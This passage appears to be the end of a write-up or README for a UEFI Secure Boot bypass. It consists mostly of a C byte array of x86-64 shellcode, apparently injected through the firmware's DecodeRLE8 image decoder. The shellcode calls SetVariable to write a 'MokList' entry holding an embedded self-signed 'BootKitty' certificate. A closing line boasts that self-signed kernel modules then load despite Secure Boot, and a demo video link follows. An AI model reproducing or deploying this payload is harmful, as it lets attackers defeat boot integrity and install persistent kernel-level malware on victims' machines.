    0x49, 0x8b, 0x47, 0x58, 0x90, 0x90, 0x90, 0x90, /* mov rax, qword ptr [r15 + 0x58], RuntimeServices = SystemTable->RuntimeServices; / nop4 */
    0x48, 0x8D, 0x15, 0x71, 0x00, 0x00, 0x00, 0x90, /* lea rdx, [rip + 0x71] (set arg1 for call, SHIM_LOCK_GUID / nop1*/
    0x48, 0x83, 0xEC, 0x38, 0x90, 0x90, 0x90, 0x90, /* sub     rsp, 38h / nop4 (for arg4) */
    0x48, 0x8D, 0x0D, 0x71, 0x00, 0x00, 0x00, 0x90, /* lea    rcx,[rip+0x71](MOKDATA) */
    0x48, 0x89, 0x4C, 0x24, 0x20, 0x90, 0x90, 0x90,  /* mov     [rsp+20h], rcx (set arg4 = MOKDATA) / nop3 */
    0x48, 0x8D, 0x0D, 0x41, 0x00, 0x00, 0x00, 0x90, /* lea rcx, [rip + 0x41] (set arg0 for call, L"MokList" / nop1 */
    0xFF, 0x50, 0x58, 0x31, 0xC0, 0x90, 0x90, 0x90, /* call qword ptr [rax+58h] (RuntimeServices->SetVariable) / xor eax, eax / nop3 */
    0x48, 0x83, 0xC4, 0x38, 0x90, 0x90, 0x90, 0x90, /* add     rsp, 38h  */
    		
    /*restore DecodeRLE8's epilogue*/
    0x48, 0x8B, 0x5C, 0x24, 0x20, 0x33, 0xC0, 0x48, 
    0x8B, 0x6C, 0x24, 0x28, 0x48, 0x8B, 0x74, 0x24, 
    0x30, 0x48, 0x8B, 0x7C, 0x24, 0x38, 0x41, 0x5F, 
    0x41, 0x5E, 0x41, 0x5C, 0xC3, 0x90, 0x90, 0x90, 	
    		
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 
    0x4D, 0x00, 0x6F, 0x00, 0x6B, 0x00, 0x4C, 0x00, 
    0x69, 0x00, 0x73, 0x00, 0x74, 0x00, 0x00, 0x00,
    0x50, 0xAB, 0x5D, 0x60, 0x46, 0xE0, 0x00, 0x43, // <- rdx (GUID)
    0xAB, 0xB6, 0x3D, 0xD8, 0x10, 0xDD, 0x8B, 0x23, // <- rdx End
  0xA1, 0x59, 0xC0, 0xA5, 0xE4, 0x94, 0xA7, 0x4A, 0x87, 0xB5, //<- rcx (MOKDATA start)
  0xAB, 0x15, 0x5C, 0x2B, 0xF0, 0x72, 0xB3, 0x03, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x97, 0x03, 0x00, 0x00, 0x50, 0xAB,
  0x5D, 0x60, 0x46, 0xE0, 0x00, 0x43, 0xAB, 0xB6, 0x3D, 0xD8,
  0x10, 0xDD, 0x8B, 0x23, 0x30, 0x82, 0x03, 0x83, 0x30, 0x82,
  0x02, 0x6B, 0xA0, 0x03, 0x02, 0x01, 0x02, 0x02, 0x14, 0x51,
  0x6E, 0xA7, 0x7F, 0x39, 0x60, 0x3E, 0x53, 0x4F, 0x1B, 0x1B,
  0x77, 0x77, 0x2D, 0xB9, 0xEF, 0x68, 0xB9, 0xC5, 0xE9, 0x30,
  0x0D, 0x06, 0x09, 0x2A, 0x86, 0x48, 0x86, 0xF7, 0x0D, 0x01,
  0x01, 0x0B, 0x05, 0x00, 0x30, 0x6A, 0x31, 0x0B, 0x30, 0x09,
  0x06, 0x03, 0x55, 0x04, 0x06, 0x13, 0x02, 0x4B, 0x52, 0x31,
  0x11, 0x30, 0x0F, 0x06, 0x03, 0x55, 0x04, 0x08, 0x0C, 0x08,
  0x49, 0x72, 0x61, 0x6E, 0x75, 0x4B, 0x49, 0x54, 0x31, 0x12,
  0x30, 0x10, 0x06, 0x03, 0x55, 0x04, 0x07, 0x0C, 0x09, 0x42,
  0x6F, 0x6F, 0x74, 0x4B, 0x69, 0x74, 0x74, 0x79, 0x31, 0x12,
  0x30, 0x10, 0x06, 0x03, 0x55, 0x04, 0x0A, 0x0C, 0x09, 0x42,
  0x6F, 0x6F, 0x74, 0x4B, 0x69, 0x74, 0x74, 0x79, 0x31, 0x12,
  0x30, 0x10, 0x06, 0x03, 0x55, 0x04, 0x0B, 0x0C, 0x09, 0x42,
  0x6F, 0x6F, 0x74, 0x4B, 0x69, 0x74, 0x74, 0x79, 0x31, 0x0C,
  0x30, 0x0A, 0x06, 0x03, 0x55, 0x04, 0x03, 0x0C, 0x03, 0x73,
  0x65, 0x6F, 0x30, 0x1E, 0x17, 0x0D, 0x32, 0x34, 0x30, 0x39,
  0x31, 0x34, 0x30, 0x39, 0x33, 0x37, 0x35, 0x30, 0x5A, 0x17,
  0x0D, 0x33, 0x34, 0x30, 0x39, 0x31, 0x32, 0x30, 0x39, 0x33,
  0x37, 0x35, 0x30, 0x5A, 0x30, 0x6A, 0x31, 0x0B, 0x30, 0x09,
  0x06, 0x03, 0x55, 0x04, 0x06, 0x13, 0x02, 0x4B, 0x52, 0x31,
  0x11, 0x30, 0x0F, 0x06, 0x03, 0x55, 0x04, 0x08, 0x0C, 0x08,
  0x49, 0x72, 0x61, 0x6E, 0x75, 0x4B, 0x49, 0x54, 0x31, 0x12,
  0x30, 0x10, 0x06, 0x03, 0x55, 0x04, 0x07, 0x0C, 0x09, 0x42,
  0x6F, 0x6F, 0x74, 0x4B, 0x69, 0x74, 0x74, 0x79, 0x31, 0x12,
  0x30, 0x10, 0x06, 0x03, 0x55, 0x04, 0x0A, 0x0C, 0x09, 0x42,
  0x6F, 0x6F, 0x74, 0x4B, 0x69, 0x74, 0x74, 0x79, 0x31, 0x12,
  0x30, 0x10, 0x06, 0x03, 0x55, 0x04, 0x0B, 0x0C, 0x09, 0x42,
  0x6F, 0x6F, 0x74, 0x4B, 0x69, 0x74, 0x74, 0x79, 0x31, 0x0C,
  0x30, 0x0A, 0x06, 0x03, 0x55, 0x04, 0x03, 0x0C, 0x03, 0x73,
  0x65, 0x6F, 0x30, 0x82, 0x01, 0x22, 0x30, 0x0D, 0x06, 0x09,
  0x2A, 0x86, 0x48, 0x86, 0xF7, 0x0D, 0x01, 0x01, 0x01, 0x05,
  0x00, 0x03, 0x82, 0x01, 0x0F, 0x00, 0x30, 0x82, 0x01, 0x0A,
  0x02, 0x82, 0x01, 0x01, 0x00, 0xDF, 0x17, 0x83, 0xA3, 0xC0,
  0x13, 0x4A, 0x5E, 0xF0, 0xC8, 0x55, 0x62, 0xBE, 0x87, 0xFB,
  0x3B, 0xA9, 0x4D, 0xF5, 0x1A, 0x87, 0x36, 0x80, 0xCB, 0x53,
  0x68, 0x93, 0x8E, 0xEF, 0xF5, 0x27, 0x27, 0xED, 0x8E, 0x33,
  0xC4, 0x68, 0x57, 0xCD, 0xF6, 0x9D, 0x48, 0x95, 0x6F, 0xE1,
  0x50, 0x34, 0xEB, 0xB3, 0x8E, 0xB8, 0x9B, 0x6C, 0x86, 0x52,
  0xC4, 0x2F, 0x59, 0x82, 0x61, 0x97, 0xD3, 0x55, 0x93, 0xDC,
  0x62, 0x21, 0x3C, 0xF8, 0xDC, 0xC3, 0xB2, 0xEF, 0x96, 0x2C,
  0xB4, 0x86, 0x0A, 0x08, 0x68, 0xD0, 0x48, 0xB4, 0x36, 0x2F,
  0x3E, 0x29, 0x3B, 0xF7, 0x2F, 0xB2, 0x1D, 0x91, 0x60, 0xA7,
  0x59, 0xB8, 0x39, 0x86, 0xED, 0x8F, 0xCE, 0xAE, 0x10, 0x1C,
  0xE8, 0x3E, 0x62, 0x9F, 0xCF, 0xB8, 0xFC, 0xA1, 0xC4, 0x7E,
  0x15, 0xF0, 0xCF, 0xC7, 0xA0, 0xE7, 0xBA, 0xAD, 0xC2, 0x5B,
  0x13, 0xDD, 0xCC, 0x0F, 0x37, 0x28, 0x15, 0x91, 0x60, 0x51,
  0xDA, 0x1B, 0x0E, 0x66, 0x55, 0xAD, 0x18, 0x75, 0x74, 0xAA,
  0x02, 0x29, 0x58, 0x98, 0x02, 0xC7, 0x11, 0x21, 0xBD, 0x8F,
  0x8C, 0x80, 0xA7, 0x46, 0x9C, 0xEB, 0xAF, 0x3D, 0x64, 0x49,
  0x3D, 0x13, 0x10, 0xA4, 0x2B, 0x8C, 0x8D, 0xC8, 0x5E, 0x10,
  0x12, 0x20, 0x87, 0x1C, 0x0C, 0x2C, 0x2F, 0x4D, 0x32, 0x07,
  0x4D, 0x1A, 0x16, 0xDF, 0x56, 0xA8, 0x3A, 0xD5, 0x05, 0x93,
  0xD3, 0x6D, 0x73, 0x8A, 0xBA, 0x82, 0xA9, 0x0A, 0x3D, 0xB6,
  0xB7, 0xBA, 0xB6, 0x56, 0xB3, 0xAA, 0x5C, 0x2E, 0xF5, 0x96,
  0xBB, 0xAE, 0xBE, 0x07, 0x50, 0xE1, 0x67, 0x61, 0x25, 0xA5,
  0x18, 0xA1, 0x92, 0x17, 0x19, 0x49, 0x26, 0x6E, 0x4A, 0xDB,
  0x5F, 0xA3, 0xEB, 0x67, 0x6F, 0x4A, 0x41, 0xDF, 0x69, 0x75,
  0xCB, 0xD0, 0x10, 0xDE, 0xD4, 0xB4, 0xFF, 0x2B, 0xD3, 0xA0,
  0x5D, 0x02, 0x03, 0x01, 0x00, 0x01, 0xA3, 0x21, 0x30, 0x1F,
  0x30, 0x1D, 0x06, 0x03, 0x55, 0x1D, 0x0E, 0x04, 0x16, 0x04,
  0x14, 0xA9, 0xE2, 0x40, 0x58, 0x8D, 0xFB, 0x95, 0xBD, 0xEB,
  0x49, 0x7A, 0x0F, 0x1E, 0xDE, 0x71, 0x54, 0xC7, 0xC5, 0x6B,
  0x38, 0x30, 0x0D, 0x06, 0x09, 0x2A, 0x86, 0x48, 0x86, 0xF7,
  0x0D, 0x01, 0x01, 0x0B, 0x05, 0x00, 0x03, 0x82, 0x01, 0x01,
  0x00, 0xCE, 0x21, 0x43, 0x8B, 0x31, 0x25, 0xDE, 0x69, 0xC6,
  0xF2, 0xAD, 0xC9, 0x61, 0xA4, 0xBC, 0x5F, 0x4F, 0x16, 0x6E,
  0xBE, 0x39, 0x39, 0x32, 0x82, 0x16, 0x74, 0xBD, 0xE8, 0x3B,
  0x51, 0xB4, 0xB0, 0x0D, 0x9D, 0x38, 0x88, 0xEF, 0xB7, 0x98,
  0x7F, 0xCE, 0xB9, 0xDC, 0xD9, 0x32, 0x15, 0xF9, 0xBC, 0x50,
  0x98, 0xA4, 0x10, 0x84, 0x22, 0x09, 0xF2, 0xA1, 0xAC, 0x5E,
  0xDC, 0x04, 0xF4, 0x33, 0x30, 0xB9, 0x13, 0x06, 0xC6, 0x6D,
  0x0B, 0xBE, 0x73, 0xBE, 0x9F, 0xAA, 0xDC, 0xD4, 0x96, 0xA0,
  0x2B, 0x14, 0x84, 0x82, 0xBC, 0xD4, 0xF2, 0xF5, 0x70, 0x20,
  0xB8, 0x23, 0x86, 0xD4, 0x58, 0x2D, 0x3E, 0xA3, 0x82, 0xA8,
  0x4B, 0xA0, 0xB6, 0x66, 0x88, 0x77, 0xAA, 0x5D, 0xDE, 0x70,
  0xE1, 0x45, 0xA3, 0xE7, 0x7F, 0x5F, 0x01, 0xC3, 0x27, 0x58,
  0x6F, 0xB7, 0xE2, 0x7E, 0x77, 0xFC, 0x1C, 0x3C, 0xD8, 0xCB,
  0x37, 0xE2, 0x06, 0x4E, 0xEE, 0x72, 0x86, 0x6F, 0x1D, 0x0A,
  0xFD, 0x73, 0xE2, 0x9F, 0xD8, 0x8F, 0xC3, 0xE1, 0xD0, 0x92,
  0xBC, 0xBC, 0x2B, 0xC6, 0xBC, 0x0F, 0x3F, 0xA3, 0x93, 0x5F,
  0xD6, 0x9C, 0x85, 0x13, 0x8C, 0x5C, 0x8A, 0x05, 0x8C, 0x8A,
  0x09, 0x9D, 0xB4, 0xE3, 0xB8, 0x90, 0xB2, 0x87, 0x27, 0xD8,
  0xB5, 0x0B, 0xAD, 0xA5, 0x34, 0x6B, 0x55, 0xBA, 0x77, 0x93,
  0xD5, 0x6A, 0x36, 0xDC, 0x51, 0x92, 0x91, 0x84, 0x71, 0x14,
  0x75, 0x7B, 0x99, 0x50, 0x9B, 0xAE, 0x96, 0x61, 0xE0, 0xBC,
  0x86, 0x16, 0x82, 0x6D, 0x3E, 0x4E, 0xF1, 0xDA, 0x5E, 0x8F,
  0x03, 0xE9, 0x13, 0x84, 0x69, 0xE1, 0x9E, 0xB0, 0x59, 0xF1,
  0x03, 0xFB, 0x17, 0xDC, 0x4B, 0x26, 0xDF, 0xAC, 0xDA, 0x7F,
  0x7D, 0xDA, 0x3B, 0x11, 0x4B, 0xDB, 0x99, 0x94, 0xBA, 0xA1,
  0x69, 0x0E, 0x03, 0x27, 0xFB, 0x48, 0xA9, 0x00,
    /*shell code end*/	
    0x08, 0x02, 0x00, 0x01, 0x01, 0x06, 0x06, 0x00, /*YEAH*/
```

Now, even with SecureBoot enabled, you can easily load Mok self-signed kernel modules!

# Demo video

[https://www.youtube.com/watch?v=XokS8Au8-DQ](https://www.youtube.com/watch?v=XokS8Au8-DQ)
